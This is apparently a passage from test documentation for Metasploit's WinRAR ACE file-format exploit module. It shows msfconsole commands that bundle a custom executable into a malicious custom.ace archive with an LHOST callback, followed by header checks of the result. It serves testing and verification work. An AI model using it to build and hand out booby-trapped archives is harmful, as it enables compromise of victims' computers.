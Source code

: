 ```
    reserved2   b''
msfdev2@automata:~$ 
```

### Test with custom payload, 2 additional files in archive
Contents of `FILE_LIST`:
```
msfdev2@automata:~$ cat ace_files.txt 
/home/msfdev2/hello.txt
/home/msfdev2/world.txt
msfdev2@automata:~$ 
```

Contents of each file in the list:
```
msfdev2@automata:~$ cat hello.txt
hello
msfdev2@automata:~$ cat world.txt
world
msfdev2@automata:~$ 
```

Custom payload to be used:
```
msfdev2@automata:~$ ls -la | grep abcdef.exe
-rw-r--r--  1 msfdev2 msfdev2   73802 Apr 16 22:11 abcdef.exe
msfdev2@automata:~$ 
```

Output from Metasploit:
```
msf5 exploit(windows/fileformat/winrar_ace) > set CUSTFILE /home/msfdev2/abcdef.exe
CUSTFILE => abcdef.exe
msf5 exploit(windows/fileformat/winrar_ace) > set FILE_LIST /home/msfdev2/ace_files.txt
FILE_LIST => ace_files.txt
msf5 exploit(windows/fileformat/winrar_ace) > set FILENAME custom.ace
FILENAME => custom.ace
msf5 exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.79.1
LHOST => 172.16.79.1
msf5 exploit(windows/fileformat/winrar_ace) > exploit

[*] Using the provided list of files @ /home/msfdev2/ace_files.txt...
[*] Using a custom payload: abcdef.exe
[*] Payload filename: abcdef.exe
[+] custom.ace stored at /home/msfdev2/.msf4/local/custom.ace
msf5 exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/custom.ace
volume
    filename    .msf4/local/custom.ace
    filesize    74072
    headers     MAIN:1 FILE:3 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
```